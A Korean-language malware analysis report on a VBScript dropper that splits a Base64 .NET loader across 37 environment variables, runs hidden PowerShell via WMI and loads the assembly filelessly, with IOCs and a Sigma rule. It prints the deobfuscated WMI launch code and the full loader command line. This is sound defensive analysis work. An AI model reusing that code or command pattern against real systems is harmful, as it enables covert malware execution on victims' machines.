

# WMI 및 환경변수 분할 기법을 활용한 .NET 로더 드로퍼 분석

## 1. 개요 (Executive Summary)
* **분석 날짜:** 정적 분석 2026-08-23 / 동적 분석 및 2단계 로더 정적 분석 2026-09-19
* **분석가:** [poatanson / son]
* **악성코드 패밀리:** 미확정 (VBScript 드로퍼 → 정상 라이브러리로 위장한 .NET 로더의 다단계 구조)
* **요약:** 본 샘플은 VBScript 기반의 드로퍼로, WMI(`Win32_Process`)를 활용해 창을 숨긴 채 PowerShell을 실행함(`WScript.Shell.Run`으로도 동일 명령을 실행). 페이로드는 반복문으로 생성한 37개의 사용자 환경 변수(`P1`~`P37`)에 Base64 조각으로 분할(Fragmentation)되어 명령줄 길이 제한 및 시그니처 탐지를 우회함. PowerShell이 이를 조립·디코딩해 32비트 .NET 어셈블리로 복원하고 `Reflection.Assembly::Load`로 메모리(Fileless)에 로드함. 로드된 어셈블리는 정상 오픈소스 라이브러리 `Microsoft.Win32.TaskScheduler`로 위장한 로더이며, 코드에는 다운로더·프로세스 할로잉·지속성 기능이 포함되어 있으나, 동적 분석 환경에서는 후속 활동이 관찰되지 않음. 최종 페이로드와 그 패밀리는 확인하지 못함.

## 2. 기본 정보 (File Details)
* **파일명:** `c5103eaa70a4a80176440a0e0dc75136a0e7bcfd9a68d7c8440a4d0edea72011.vbs` (또는 실제 확장자)
* **파일 크기:** 40 MB (더미 코드와 유니코드 이모지로 파일을 부풀려 PowerShell 명령을 숨기고 분석을 방해함)
* **해시:**
  * MD5: `f5b1c1919f175fce913df143accf44a3`
  * SHA-1: `8b3f6d2217b736d5bbe69de37a3dd95ee058151b`
  * SHA-256: `c5103eaa70a4a80176440a0e0dc75136a0e7bcfd9a68d7c8440a4d0edea72011`
* **파일 타입:** VBScript

## 3. 분석 환경
* **OS:** Windows 10 Pro 22H2 (VirtualBox, 내부 네트워크로 인터넷 차단)
* **주요 사용 도구:** vbsedit, sublime text, LLM (코드 난독화 해제 보조), Sysmon, ILSpy, VirusTotal

## 4. 실행 흐름도 (Execution Flow)



1~7단계는 로그와 정적 분석으로 확인된 내용이고, 8단계(점선)는 코드에 존재하지만 동적 분석에서 동작을 확인하지 못한 기능임.

## 5. 주요 기술적 특징 (Technical Analysis)

### 5.1. 환경 변수 분할 및 WMI 은밀 실행
* **환경 변수 생성:** VBS가 반복문으로 환경 변수 `P1`~`P37`을 생성하고, 각 변수에 Base64로 인코딩된 페이로드(.NET 어셈블리) 조각을 나누어 저장함. 사용자(User) 범위 변수로 확인됨(6.4절).
* 기존 `WScript.Shell.Run`의 창 깜빡임 및 명령줄 길이 제한을 우회하기 위해 WMI 사용.
* **추출된 WMI 스크립트:**
```vbscript
' ==========================================================
' [1] WMI 객체 및 시작 옵션 초기화
' ==========================================================
' WMI 루트 객체 생성 (winmgmts:\\.\root\cimv2)
Set exophthalmy = GetObject(healthily)

' Win32_ProcessStartup 클래스의 인스턴스 생성
Set Acadia = exophthalmy.Get(healthilyt).SpawnInstance_

' 창 숨김 설정 (0 = SW_HIDE)
Acadia.ShowWindow = 0

' Win32_Process 클래스 객체 할당
Set wistit = exophthalmy.Get(echinocardium)


' ==========================================================
' [2] 프로세스 실행 (중복 로직 포함)
' ==========================================================
' [실행 시도] WMI를 통한 은밀한 프로세스 생성
' 인자: (명령어, 현재디렉토리, 시작옵션객체, PID반환변수)
lotus = wistit.Create(ballast, Null, Acadia, lithobiid)

' [실행 시도] WScript.Shell을 통한 폴백(Fallback) 실행
' 인자: (명령어, 창스타일(0=숨김), 대기여부(True))
opsonies.Run ballast, 0, True


' ==========================================================
' [변수 매핑 요약]
' ==========================================================
' ballast   : powershell -ExecutionPolicy Bypass -WindowStyle Hidden -Command "$s=$env:P1+...+$env:P37; $b=[Convert]::FromBase64String($s); [Reflection.Assembly]::Load($b)|Out-Null; [OtnmpxnddVnptbN.mpxnddVn]::Otnmpxn('...')"
' healthily : "winmgmts:\\.\root\cimv2"
' healthilyt: "Win32_ProcessStartup"
' echinocardium: "Win32_Process"
```
* 코드 주석은 두 번째 호출을 폴백이라 표기했으나, 실제로는 두 호출이 **모두 실행**됨(6.2절).

### 5.2. 2단계 .NET 로더 정적 분석 (ILSpy)

환경 변수 조각을 복원한 파일(`payload.bin`)을 ILSpy와 파일 파싱으로 정적 분석함. 분석 과정에서 샘플 코드는 실행하지 않음.

| 항목 | 결과 |
|---|---|
| 어셈블리 정체 | `Microsoft.Win32.TaskScheduler` v2.8.20.0, 서명 없음(PublicKeyToken=null), PE32(32비트), 827,904바이트, 타입 1,346개 / 메서드 6,496개. 정상 오픈소스 라이브러리의 이름과 구조로 위장한 것으로 보임 (MITRE T1036.005) |
| 진단명 | Microsoft Defender `Trojan:Win32/Ravartar!rfn`, VirusTotal의 ALYac 등 여러 엔진에서 `Lausivloader.1` 진단 (로더 계열 진단명, 특정 패밀리를 가리키지는 않음) |
| 난독화 | 제어 흐름 평탄화(`switch` 상태 머신), 식별자를 사설 유니코드 영역 문자로 치환, 정수·문자열 상수를 표에서 조회하는 방식 |
| 내장 리소스 `gNVy` | 유일한 내장 리소스. AES-256-CBC(IV 16바이트, 키는 헤더에 평문)로 암호화된 .NET 어셈블리(PE32 DLL, 19,968바이트)로, 작업 스케줄러 UI 문구를 담은 정상 리소스로 보임. 악성 기능과 무관하며 VirusTotal 0건 |
| 문자열 복호화 | AES-CBC (입력의 앞 16바이트가 IV). 커맨드라인의 Base64 인자 12개(빈 값 7개 제외)는 모두 IV+AES 블록 구조와 일치함 (키 유도 상수는 난독화 표에 있어 복호화하지 못함) |
| 다운로더 | `WebClient`로 URL에서 데이터를 받아 특정 마커 뒤의 부분을 추출하고, Base64/16진 판별 후 디코딩하여 파일로 저장하거나 다른 루틴에 전달함 (URL·마커는 난독화되어 미확인) |
| 프로세스 할로잉 API | `CreateProcess`, `ZwUnmapViewOfSection`, `VirtualAllocEx`, `WriteProcessMemory`, `GetThreadContext`, `SetThreadContext`, `ResumeThread`, `CloseHandle` 선언 (MITRE T1055.012에 해당하는 API 조합. 실제 호출 여부와 대상 프로세스는 미확인) |
| 지속성 관련 코드 | 외부 프로세스를 숨김 창으로 실행하고 `HKCU` 레지스트리에 값을 기록하는 루틴. 실행 문자열이 난독화되어 예약 작업 생성으로 추정 (MITRE T1053.005 / T1547.001) |
| 기타 | Mutex 사용 확인 (이름 미복원), 외부 명령 실행 루틴 존재 (용도 미확인) |

**난독화 런타임 리소스 누락 (가설)**
- 로더의 난독화 런타임은 리소스 `jfEt`(정수 상수 표)와 5글자 이름의 또 다른 리소스(문자열 표)를 요구하나, 이 빌드에는 리소스가 `gNVy` 하나뿐임.
- 리소스가 없으면 표 초기화가 예외로 실패하고, 이후 상수 조회가 모두 실패함. 상수 조회를 사용하는 메서드 다수가 `try/catch`로 예외를 삼키므로 **로더 코드가 조용히 동작하지 않을 가능성**이 있음.
- 6.6절의 후속 프로세스 미관찰 결과와 일치하는 정황이나, 동적으로 검증하지는 않았으며 다른 빌드에서는 정상 동작할 수 있음. 코드에 존재하는 기능은 탐지 관점에서 그대로 유효함.

## 6. 동적 분석 결과 (Dynamic Analysis)

VBScript 드로퍼를 격리된 VM에서 실행하고, Sysmon 로그와 시스템 화면으로 실행 흐름을 확인함.
핵심 결론은 다음과 같음.

- VBS가 **두 경로**(`wscript.exe` 직접 실행, WMI 경유)로 동일한 숨김 PowerShell을 실행함
- 페이로드는 **사용자 환경 변수 `P1`~`P37`**에 Base64 조각으로 저장되어 있고, PowerShell이 이를 조립·디코딩해 **`Assembly.Load`로 메모리에 로드**함
- 관찰된 로그에서 페이로드 파일이 디스크에 생성된 흔적은 없음 (인메모리 로딩과 일치)
- 로드 이후 PowerShell을 부모로 하는 후속 프로세스는 관찰되지 않음

### 6.1 분석 환경

| 항목 | 내용 |
|---|---|
| 실행일 | 2026-09-19 (샘플 실행 시각: 08:02 UTC) |
| OS | Windows 10 Pro 22H2 (VirtualBox) |
| 네트워크 | 내부 네트워크 (인터넷 차단, `192.168.100.102`) |
| 로깅 | Sysmon (규칙 기반 FileCreate 설정), Windows 이벤트 뷰어 |
| 실행 계정 | `DESKTOP-4ET91UB\victim` (Medium 무결성) |
| 실행 대상 | `c5103eaa70a4a80176440a0e0dc75136a0e7bcfd9a68d7c8440a4d0edea72011.vbs` |

### 6.2 프로세스 실행 흐름 (Sysmon Event ID 1)

```
c5103eaa...72011.vbs
 └─ wscript.exe (PID 5896)
     └─ powershell.exe (PID 5052, 08:02:23.523)    ← 직접 실행

WmiPrvSE.exe (PID 1188, NETWORK SERVICE)
 └─ powershell.exe (PID 1508, 08:02:23.348)         ← WMI 경유 실행
```

두 경로는 5.1절에서 추출한 VBS의 실행 구조와 일치함. 스크립트는 WMI(`Win32_Process.Create`)로
먼저 실행한 뒤 `WScript.Shell.Run`으로 같은 명령을 다시 실행하며, 로그의 생성 순서(WMI
08:02:23.348 → `wscript.exe` 08:02:23.523)도 같음. 작업 디렉터리 차이도 코드로 설명됨: WMI 호출은
현재 디렉터리 인자가 `Null`이라 `system32`에서, `Run`은 `wscript.exe`의 작업 디렉터리(샘플 폴더)를
이어받은 것으로 보임. 코드 주석은 폴백이라 적었으나 로그상 두 프로세스가 모두 실행됨.


*그림 1. `wscript.exe`가 직접 실행한 PowerShell (PID 5052)*


*그림 2. WMI 서비스(`WmiPrvSE.exe`)가 실행한 PowerShell (PID 1508)*

두 프로세스는 페이로드와 인자가 동일하지만 다음 항목으로 실행 경로를 구분할 수 있음.

| 항목 | 그림 1 (PID 5052) | 그림 2 (PID 1508) |
|---|---|---|
| 생성 시각 (UTC) | 08:02:23.523 | 08:02:23.348 |
| 부모 프로세스 | `wscript.exe` (원본 .vbs 경로 포함) | `WmiPrvSE.exe -secured -Embedding` |
| 부모 계정 | `victim` | `NT AUTHORITY\NETWORK SERVICE` |
| 작업 디렉터리 | 샘플 폴더 (`Downloads\c5103eaa...\`) | `C:\Windows\system32\` |
| 커맨드라인 시작 | `"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"` | `powershell` |
| 실행 계정 / 무결성 | `victim` / Medium | `victim` / Medium |

두 프로세스의 LogonId가 동일(`0x34CEB`)하여 같은 로그온 세션에서 실행되었음.

### 6.3 커맨드라인 분석

두 프로세스의 커맨드라인은 다음 5단계로 구성됨.

| 단계 | 커맨드라인 조각 | 의미 |
|---|---|---|
| 1 | `-ExecutionPolicy Bypass -WindowStyle Hidden` | 실행 정책 우회, 창 숨김 |
| 2 | `$s=$env:P1+$env:P2+ ... +$env:P37` | 환경 변수 37개를 이어붙여 Base64 문자열 조립 |
| 3 | `$b=[Convert]::FromBase64String($s)` | Base64 디코딩 (바이트 배열) |
| 4 | `[Reflection.Assembly]::Load($b)\|Out-Null` | 디스크에 쓰지 않고 메모리에서 .NET 어셈블리 로드 |
| 5 | `[OtnmpxnddVnptbN.mpxnddVn]::Otnmpxn('...', ...)` | 로드된 어셈블리의 메서드를 AES로 암호화된 Base64 문자열 인자 19개(빈 값 7개 포함)와 함께 호출 |

페이로드 조각(`P1`~`P37`)만 환경 변수에 숨겨져 있고, 이를 조립·디코딩·로드하는 **로더 코드는
커맨드라인에 평문으로 남아 있음**. 이 점이 6.5절의 탐지 룰이 성립하는 근거임.

### 6.4 환경 변수 페이로드


*그림 3. 사용자 환경 변수 화면 (샘플 실행 약 2분 뒤 캡처)*

- `victim`의 **사용자 환경 변수**로 `P1`, `P10`, `P11`, `P12`가 확인됨 (화면 스크롤 범위 내에서 보이는 항목)
- `P1` 값이 `TVqQAAMAAAAEAAAA`로 시작함. `P1`의 앞 16자를 디코딩하면 `4D-5A-90-00-03-00-00-00-04-00-00-00`으로
  PE 파일의 `MZ` 헤더(DOS 헤더 시작부)임 (`[BitConverter]::ToString([Convert]::FromBase64String($env:P1.Substring(0,16)))`)
- `P1`~`P37`을 사용자 범위에서 순서대로 결합·디코딩해 복원한 파일의 SHA-256은
  `fd629cc6b872d9c34a8dd93cd537b7472cebeca7b84c4d077ee2283cdba9f060`이며, 조각이 정상적으로 복원되므로
  변수는 사용자 환경(레지스트리)에 영구 저장되어 있음
- 복원 파일은 PE32(`Magic 0x10B`)이고 CLR 헤더가 존재(`CLR RVA 0x2008`)하여 **32비트 관리형 .NET 어셈블리**로 확정함
- `ReflectionOnlyLoadFrom`으로 메타데이터만 읽어(코드 실행 없음) `OtnmpxnddVnptbN.mpxnddVn` 클래스의 `Otnmpxn` 메서드를
  확인함. 이로써 환경 변수 조각이 커맨드라인이 호출하는 .NET 어셈블리의 조각임을 확정함
- 화면에는 4개만 보이며, 37개라는 수는 커맨드라인의 `$env:P1+...+$env:P37` 참조에서 확인한 값임

### 6.5 탐지 룰 검증 (Sigma)

- **룰 파일**: `proc_creation_win_powershell_reflection_assembly_load_b64_hidden.yaml`
- **검증 방법**: Sysmon Event ID 1의 필드 값과 룰 조건을 수작업으로 대조 (도구 실행 결과 아님)
- **결과**: 그림 1, 그림 2의 두 프로세스 모두 4개 조건을 충족하여 **매치됨**

| 룰 조건 | 로그에서 확인한 값 |
|---|---|
| PowerShell 프로세스 | `Image: ...\powershell.exe`, `OriginalFileName: PowerShell.EXE` |
| Base64 디코딩 | `[Convert]::FromBase64String($s)` |
| 어셈블리 로드 | `[Reflection.Assembly]::Load($b)` |
| 옵션 | `-ExecutionPolicy Bypass`, `-WindowStyle Hidden` |

**음성 사례(정상 PowerShell은 매치되지 않음)**: 같은 VM에서 관찰된 다른 PowerShell 프로세스는
커맨드라인이 `powershell.exe` 단독이거나, `-ExecutionPolicy Restricted -Command Write-Host ...`
형태(Windows 호환성 텔레메트리 작업)라서 룰 조건을 충족하지 않음.

### 6.6 부가 관찰

**파일 생성 (Event ID 11)**
- 확인한 `.ps1` 생성은 모두 `__PSScriptPolicyTest_*.ps1` 패턴이었으며, 이는 PowerShell이 시작할 때
  스크립트 정책 검사를 위해 만드는 임시 파일임. 악성코드와 무관한 분석용 PowerShell에서도 동일하게 생성됨
- Defender(`mpam-*.exe`), 작업 스케줄러(`SA.DAT`), WMI 서비스(`WRITABLE.TST`) 관련 이벤트는 OS 정상 동작으로 제외함
- 악성 체인이 만든 실행 파일이나 페이로드 파일은 관찰되지 않음. 단, Sysmon FileCreate는 규칙 기반이라
  기록되지 않은 파일이 있을 수 있으므로 인메모리 로딩과 일치하는 정황일 뿐 확정 증거는 아님

**후속 프로세스 (Event ID 1, 8, 10)**
- 샘플 실행 후(17:02~17:15 KST) PID 1508, 5052를 부모(또는 소스)로 하는 이벤트는 조회되지 않음
- 같은 방식의 조회로 `wscript.exe`(PID 5896)의 자식인 PID 5052는 정상적으로 조회되어 조회 방식이 유효함을 확인함
- 프로세스 할로잉은 자식 프로세스를 만드는 기법이므로, 5.2절의 "로더 코드가 동작하지 않았을 가능성"과
  일치하는 정황임. 다만 Event ID 8/10 로깅 활성 여부는 미확인이며, 네트워크가 차단된 환경이라 확정 증거는 아님

**DNS 조회 (Event ID 22)**
- 08:02:22.306에 PID 1508로 `pub-378362a70f714a30b26c109732cabca4[.]r2[.]dev` 조회가 기록됨
  (결과: 타임아웃, 인터넷 차단 환경과 일치)
- 조회 시각이 PowerShell(PID 1508) 생성 시각(08:02:23.348)보다 약 1초 빠르고 `Image`가
  `<unknown process>`로 기록되어, **조회 주체는 확정하지 못함**. IOC 후보로만 분류

### 6.7 관찰된 IOC

| 유형 | 값 | 신뢰도 |
|---|---|---|
| 파일 (SHA-256) | `c5103eaa70a4a80176440a0e0dc75136a0e7bcfd9a68d7c8440a4d0edea72011` (VBS 드로퍼) | 확정 |
| 2단계 페이로드 (SHA-256) | `fd629cc6b872d9c34a8dd93cd537b7472cebeca7b84c4d077ee2283cdba9f060` (환경 변수 복원 파일, 32비트 .NET) | 확정 |
| 어셈블리 정체 | `Microsoft.Win32.TaskScheduler` v2.8.20.0, 서명 없음, 827,904바이트 (정상 라이브러리로 위장) | 확정 |
| 내장 리소스 | 이름 `gNVy`, AES-256-CBC 암호화된 정상 UI 어셈블리 (SHA-256 `f14ded1870b5b7c21b8fc14f2372d74af6b6b88d78627727aa764ae1a7cfd654`) | 확정 (약한 지표) |
| 프로세스 체인 | `wscript.exe` → `powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden` | 확정 |
| 프로세스 체인 | `WmiPrvSE.exe` → `powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden` | 확정 |
| 환경 변수 | 사용자 환경 변수 `P1`~`P37` (Base64 조각, `P1`은 PE 헤더로 시작) | 확정 |
| 로드 대상 | `OtnmpxnddVnptbN.mpxnddVn::Otnmpxn` | 확정 (난독화 결과로 보이며 변종에서는 달라질 수 있음) |
| 진단명 | Defender `Trojan:Win32/Ravartar!rfn`, VirusTotal의 ALYac 등 `Lausivloader.1` | 참고 |
| 도메인 | `pub-378362a70f714a30b26c109732cabca4[.]r2[.]dev` | 후보 (귀속 미확정) |

`powershell.exe` 자체의 해시는 정상 파일의 값이므로 IOC에서 제외함.

### 6.8 한계 및 미확인 사항

- **네트워크 행위 미검증**: 인터넷이 차단된 환경이라 C2 통신 여부는 확인하지 못함
- **최종 페이로드 미확인**: 로더가 내려받거나 주입하려는 최종 페이로드와 그 패밀리는 확인하지 못함.
  초기에 특정 RAT 패밀리로 추정했으나 뒷받침하는 근거를 찾지 못해 분석 결과에서 제외함
- **로더 동작 여부 미확정**: 난독화 런타임 리소스 누락(5.2절)으로 이 빌드의 로더 코드가 초기화에 실패했을
  가능성이 있으나 동적으로 검증하지 않았음. 다른 빌드는 정상 동작할 수 있음
- **문자열 난독화**: 로더의 문자열·정수 상수가 표 기반으로 난독화되어, 다운로드 URL, 추출 마커,
  mutex 이름 등 세부 값은 복호화하지 못함. API 호출 구조와 기능은 확인함
- **탐지 룰의 범위**: 커맨드라인에 로더 코드가 평문으로 남는 경우만 탐지함. `-EncodedCommand`나
  스크립트 파일 실행으로 변형되면 놓칠 수 있으며, Script Block Logging(Event ID 4104) 기반 룰로 보완해야 함
- **로그 범위**: Sysmon 설정이 규칙 기반이라 모든 파일·레지스트리 이벤트가 기록되지는 않음
